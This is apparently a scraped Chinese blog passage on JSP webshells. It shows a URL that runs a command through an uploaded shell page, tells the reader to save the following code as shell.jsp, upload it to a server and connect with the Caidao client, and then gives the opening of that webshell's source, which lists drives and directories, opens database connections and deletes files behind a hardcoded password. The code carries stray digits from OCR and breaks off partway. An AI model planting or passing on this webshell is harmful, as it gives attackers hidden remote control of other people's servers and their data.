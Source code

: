 ```
```




访问链接：[http://127.0.0.1:8080/EShop/b.jsp?pwd=b&i=ipconfig](http://127.0.0.1:8080/EShop/b.jsp?pwd=b&i=ipconfig "http://127.0.0.1:8080/EShop/b.jsp?pwd=b&i=ipconfig") 



![](https://img-blog.csdnimg.cn/20190116113913953.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**JSP一句话木马**



将下面保存为shell.jsp，上传到服务器，然后用菜刀连接即可



![](https://img-blog.csdnimg.cn/20190116133840122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



```
<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>      
<%!String Pwd = "pass";     //菜刀连接密码       
    String EC(String s, String c) throws Exception {      
        return s;      
    }//new String(s.getBytes("ISO-8859-1"),c);}       
    Connection GC(String s) throws Exception {      
        String[] x = s.trim().split("\r\n");      1
        Class.forName(x[0].trim()).newInstance();      1
        Connection c = DriverManager.getConnection(x[1].trim());      1
        if (x.length > 2) {      1
            c.setCatalog(x[2].trim());      1
        }      1
        return c;      1
    }      1
    void AA(StringBuffer sb) throws Exception {      1
        File r[] = File.listRoots();      1
        for (int i = 0; i < r.length; i++) {      2
            sb.append(r[i].toString().substring(0, 2));      2
        }      2
    }      2
    void BB(String s, StringBuffer sb) throws Exception {      2
        File oF = new File(s), l[] = oF.listFiles();      2
        String sT, sQ, sF = "";      2
        java.util.Date dt;      2
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");      2
        for (int i = 0; i < l.length; i++) {      2
            dt = new java.util.Date(l[i].lastModified());      3
            sT = fm.format(dt);      3
            sQ = l[i].canRead() ? "R" : "";      3
            sQ += l[i].canWrite() ? " W" : "";      3
            if (l[i].isDirectory()) {      3
                sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()      3
                        + "\t" + sQ + "\n");      3
            } else {      3
                sF += l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"      3
                        + sQ + "\n";      3
            }      4
        }      4
        sb.append(sF);      4
    }      4
    void EE(String s) throws Exception {      4
        File f = new File(s);      4
        if (f.isDirectory()) {      4
```